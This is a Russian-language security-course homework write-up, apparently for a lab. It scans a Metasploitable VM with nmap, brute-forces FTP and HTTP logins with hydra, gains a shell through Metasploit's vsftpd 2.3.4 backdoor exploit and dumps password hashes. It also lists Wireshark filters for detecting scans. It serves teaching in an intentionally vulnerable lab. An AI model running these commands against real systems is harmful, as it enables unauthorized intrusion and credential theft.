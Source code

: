 # Уязвимости и атаки на информационные системы
- Качаем дистриб Kali linux 
- Качаем  виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Просканируйте эту виртуальную машину, используя nmap.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.


## NMAP: основные режимы сканирования
-sS: TCP SYN-сканирование

-sT: TCP connect-сканирование

-sА: TCP FIN-сканирование

-sU: UDP-сканирование

-sX: Xmas-сканирование

-PR: ARP-пинг

--traceroute: трассировка пути

-R: разрешение имен DNS

-n: запрещение разрешения имен DNS

-sL: создать список хостов


 Попробуем разные режимы 
![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)

Агрессивный режим сканирования (-A) – наиболее часто используемый
![alt text](image-3.png)

-sV: версия софта
![alt text](image-4.png)


Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

![alt text](image-5.png)

## эксперемент с HYDRA 
создадим два файлика 
![alt text](image-6.png)
а в идеале качаем готовый seclist
```
 hydra -L user.txt -P pwd.txt ftp://192.168.31.121
```   
![alt text](image-7.png)
```
hydra -L user.txt -P pwd.txt 192.168.31.121 http-get
```
![alt text](image-8.png)


# METASPLOIT
```
kali@kali:~$ sudo service postgresql start
kali@kali:~$ sudo msfdb init
```
```
kali@kali:~$ sudo msfconsole
msf5 > db_status
```
![alt text](image-9.png)

![alt text](image-10.png)
подключим модуль сканнера 
```
use auxiliary/scanner/ftp/ftp_version
```
![alt text](image-11.png)
Добавим переменнную ``RHOSTS``
```
setg RHOSTS 192.168.31.121
run
```
![alt text](image-12.png)
Получили баннер
![alt text](image-14.png)

Подключаем модуль
```
use exploit/unix/ftp/vsftpd_234_backdoor
run
```
![alt text](image-15.png)

попали в shell
![alt text](image-16.png)
![alt text](image-17.png)

Для сбора хешей паролей
Переведем нашу сессию в фоновый режим: ``Ctrl-Z``
```
sessions -l проверим сессии
```
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/linux/gather/hashdump
```
```
msf5 post(linux/gather/hashdump) > show options
```
![alt text](image-18.png)
```
msf5 post(linux/gather/hashdump) > set session 1
msf5 post(linux/gather/hashdump) > run
```

![alt text](image-19.png)


Мы получили хэши паролей пользователей сервера.

![alt text](image-20.png)

Если вы хотите перейти к сессии №1 (например, к shell после эксплуатации vsftpd):

```
sessions -i 1
```
Если сессия "висит" в фоне
``jobs -l ``   # проверка фоновых задач
``fg %1  ``    # вернуться к задаче №1

# Анализ трафика с помощью Wireshark

![alt text](image-21.png)

![alt text](image-22.png)

Специфические фильтры для каждого типа
SYN-сканирование:

```tcp.flags.syn == 1 && tcp.flags.ack == 0```
FIN-сканирование:


```tcp.flags.fin == 1 && tcp.flags.ack == 0```
Xmas-сканирование:


```tcp.flags.fin == 1 && tcp.flags.psh == 1 && tcp.flags.urg == 1```# HOMEWORK_KALI
